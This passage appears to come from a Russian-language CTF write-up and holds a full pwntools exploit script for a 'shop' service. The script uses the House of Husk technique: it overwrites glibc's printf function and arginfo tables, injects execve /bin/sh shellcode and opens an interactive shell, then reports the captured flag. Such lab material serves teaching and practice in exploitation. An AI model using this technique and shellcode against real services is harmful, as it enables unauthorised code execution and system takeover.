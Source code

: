 \documentclass[idxtotoc,hyperref,openany,oneside]{files/pwn} %
\begin{document}
Таким образом, получаем следующий код:
\begin{lstlisting}[language=Python, caption=House of Husk]
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

REMOTE = True

BINARY = "./shop"

make_heap_exec = b'4205600' # Address of _dl_make_heap_executable
offset = b'4925936'
shellcode = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

if REMOTE:
    r = remote('127.0.0.1', 33063)
else:
    r = process(BINARY)


def register(username, password):
    r.sendlineafter(b'> ', b'2')
    r.sendlineafter(b': ', username)
    r.sendlineafter(b': ', password)


def login(username, password):
    r.sendlineafter(b'> ', b'1')
    r.sendlineafter(b': ', username)
    r.sendlineafter(b': ', password)


def sell(name, price, size=0):
    if size == 0:
        size = len(name) + 16

    r.sendlineafter(b'> ', b'3')
    r.sendlineafter(b': ', str(size).encode('utf-8'))
    r.sendlineafter(b': ', name)
    r.sendlineafter(b': ', price)


def change_price(idx, price):
    r.sendlineafter(b'> ', b'4')
    r.sendlineafter(b': ', str(idx).encode('utf-8'))
    r.sendlineafter(b': ', price)


def exploit():
    register(shellcode, shellcode)
    login(shellcode, shellcode)

    for i in range( 0, 67 ):
        sell(shellcode, make_heap_exec)

    # Rewrite __printf_function_table
    sell(b'abcd', offset)

    # Rewrite __printf_arginfo_table
    change_price(67, b'0')
    sell(b'a', offset, 1024)

    # Return valid address of printf_function_table
    change_price(67, offset)

    # Invoke shell
    r.sendlineafter(b'> ', b'7')
    r.interactive()


if __name__ == "__main__":
    exploit()
\end{lstlisting}

Получаем флаг \verb|oren_ctf_House_of_Husk!|

\end{document}
